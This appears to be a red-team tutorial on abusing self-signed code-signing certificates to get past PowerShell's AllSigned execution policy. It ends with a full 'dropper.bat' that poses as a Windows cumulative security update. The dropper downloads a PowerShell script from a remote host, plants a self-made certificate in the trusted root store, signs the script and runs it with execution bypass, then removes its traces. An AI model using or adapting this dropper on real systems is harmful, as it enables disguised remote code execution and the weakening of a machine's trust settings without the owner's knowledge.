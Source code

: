### Create a Self-Signed Certificate for Code Signing

<br />

In PoweShell 3.0, the [New-SelfSifgnedCertificate](https://docs.microsoft.com/en-us/powershell/module/pkiclient/new-selfsignedcertificate?view=win10-ps) cmdlet was generating only SSL certificates that couldn’t be used to sign the driver and application code (unlike certificates generated by the MakeCert utility). In PowerShell 5 the new version of the New-SelfSifgnedCertificate
cmdlet can now be used to issue a Code Signing certificates.

<br />

#### Lets build our test script { my_posh_script.ps1 } - Open Notepad Copy/Paste/Save it
```
# Malicious Code to execute
write-host "Just to test IF certificate sign was worked.." -ForeGroundColor green -BackGroundColor black
Start-Sleep -Seconds 3

```
<br />

#### Lets set 'Target' PS Execution Policy to 'AllSigned' to test the script (no need admin rigths)
`Set-ExecutionPolicy AllSigned -Scope CurrentUser`
![drrr](https://user-images.githubusercontent.com/23490060/72698984-6cf18480-3b3e-11ea-8c93-81b5ae68a9d6.png)

<br />

#### Lets Run our Script (With PS ExecutionPolicy set to 'AllSigned')
[AllSigned = Requires that all scripts and files are signed by a trusted publisher, including scripts written on local computer.](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7)
![sd11](https://user-images.githubusercontent.com/23490060/72687408-6a1e7180-3af5-11ea-8d14-c0ffa221468d.png)

<br />


#### To create a self-signed certificate for signing the application code (my_posh_script.ps1), run the command:
```
$cert = New-SelfSignedCertificate -Subject "My Code Signing Certificate" -Type CodeSigningCert -CertStoreLocation cert:\LocalMachine\My
```
![sdr](https://user-images.githubusercontent.com/23490060/72689217-0dc44d80-3b07-11ea-98f6-1acadb0615b3.png)

<br />

#### Let’s try to sign our PowerShell script (my_posh_script.ps1) using this certificate:
```
Set-AuthenticodeSignature -FilePath $env:userprofile\Desktop\my_posh_script.ps1 -Certificate $cert
```
![fdr](https://user-images.githubusercontent.com/23490060/72689232-3cdabf00-3b07-11ea-9ba7-ff830fca7356.png)

**Remark:** f you are receiving an **'UnknownError'** warning when executing the command, this means that **'the certificate is not trusted'**.
Because it is located in the **'user’s personal certificates store'** To open the certificate store press: Windows+R -> `certlm.msc`.
![sd3](https://user-images.githubusercontent.com/23490060/72686272-bfa15100-3aea-11ea-9f1a-7ae2e2cb0cb2.png)

<br />

#### We need to move our certificate to the 'trusted root certificates' store
![sd4](https://user-images.githubusercontent.com/23490060/72686277-dba4f280-3aea-11ea-9332-9e8c274bb9fe.png)
![sd5](https://user-images.githubusercontent.com/23490060/72686281-e52e5a80-3aea-11ea-96a6-a11bf6e8e8f3.png)
![sd6](https://user-images.githubusercontent.com/23490060/72686284-ec556880-3aea-11ea-9af0-3e43c4ea8fa1.png)

<br />

#### After that, you can sign your PowerShell script with this self-signed certificate.
```
Set-AuthenticodeSignature -FilePath $env:userprofile\Desktop\my_posh_script.ps1 -Certificate $cert
```
![dsf](https://user-images.githubusercontent.com/23490060/72689414-1158d400-3b09-11ea-9d6a-449a224c1952.png)
#### After the script beeing signed, it will be append one certificate {code block} inside the PS script:
![po1](https://user-images.githubusercontent.com/23490060/72687557-d2ba1e00-3af6-11ea-840b-702ccbe4bc73.png)
#### Running the script with PS Execution-Policy set to 'AllSigned'
[AllSigned. Requires that all scripts and files are signed by a trusted publisher, including scripts written on local computer.](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7)
![sdff](https://user-images.githubusercontent.com/23490060/72687601-6a1f7100-3af7-11ea-8f95-9d611d8867b2.png)

---

<br />

**Remark:** After beeing signed, the PS script can not be changed under the risk of breaking cert code block

**Remark:** Remmenber that this certificate its only valid for the Local Machine (current PC) were it was been stored..
That meens if we port the PS script to a remote machine it will not execute, because remote machine does not contain
this certificate in there certificate store ...

<br />

#### Revert Target System to 'Default' Settings. (non admin privs requiered)
```
cd %tmp% && del /F /Q my_posh_script.ps1
cmd /c echo Y | powershell Set-ExecutionPolicy Restricted -Scope CurrentUser
powershell Get-ChildItem Cert:\LocalMachine\Root ^| Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'} ^| Remove-Item
```
---

<br />

This next step shows us how this technic can be abused (PS Execution Policy bypass) to remote Download/Execute our PS Script, even if target system is config to Only run digitally Signed PS scripts .. It will download and execute him ..

<br />

#### Batch (dropper.bat) Automation Example:
```
@echo off
color 03
title Cumulative Security Update KB4524147

echo [1] Set Target PS Execution Policy to 'AllSigned' to test script.
cmd /c echo Y | powershell Set-ExecutionPolicy AllSigned -Scope CurrentUser
timeout /T 2 >nul

echo [2] Downloading our PS script to target 'tmp' remote folder.
powershell -C (New-Object Net.WebClient).DownloadFile('http://192.168.1.71/my_posh_script.ps1', '$env:tmp\my_posh_script.ps1')
timeout /T 2 >nul

echo [3] Digitally sign Our Downloaded PS script (my_posh_script.ps1) { cert expires in six months }
powershell $cert = New-SelfSignedCertificate -Subject "My_Code_Signing_Certificate" -FriendlyName "SsaRedTeam" -NotAfter (Get-Date).AddMonths(6) -Type CodeSigningCert -CertStoreLocation cert:\LocalMachine\My;Move-Item -Path $cert.PSPath -Destination "Cert:\LocalMachine\Root";Set-AuthenticodeSignature -FilePath $env:tmp\my_posh_script.ps1 -Certificate $cert
timeout /T 2 >nul

echo [4] Executing our Downloaded script and bypass user intervention
cd %tmp% && cmd /c echo A | powershell -Execution Bypass -NoProfile -File my_posh_script.ps1
pause


echo [i] Reverting %userdomain% to Previous State (before dropper.bat exec)
timeout /T 3 >nul
cmd /c echo Y | powershell Set-ExecutionPolicy Restricted -Scope CurrentUser
echo [i] PowerShell Execution Policy Set to: 'Restricted' ..
cd %tmp% && del /F /Q my_posh_script.ps1
echo [i] my_posh_script.ps1 deleted from: %tmp% ..
timeout /T 2 >nul
echo [i] Deleting 'SsaRedTeam' (FriendlyName) Certificate from Cert Store ..
powershell Get-ChildItem Cert:\LocalMachine\Root ^| Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'}
powershell Get-ChildItem Cert:\LocalMachine\Root ^| Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'} ^| Remove-Item
pause
```

<br />

**Remark:** This batch script must be executed with **admin privileges**<br />
**Remark:** This Dropper.bat can **Download-PS-Script/Build-Cert/Sign-PS-Script/Execute-PS-Script** because the Policy
its set by Default to powershell Scripts Only (this policy does not affects batch scripts from running and executing all of this)..
![dff](https://user-images.githubusercontent.com/23490060/72754958-28f39380-3bc1-11ea-8eb8-d2c61351ba14.png)

<br />

### Final Notes:
- This Batch script in the end will revert target machine to previous state (before dropper.bat exec), by setting<br />
  the PS Execution Policy to **'Restricted'** (default), by deleting **'my_posh_script.ps1'** from **%tmp%** remote<br />
  folder and deletes the created certificate by **Issuer** (CN) Name { **CN=My_Code_Signing_Certificate** } ..

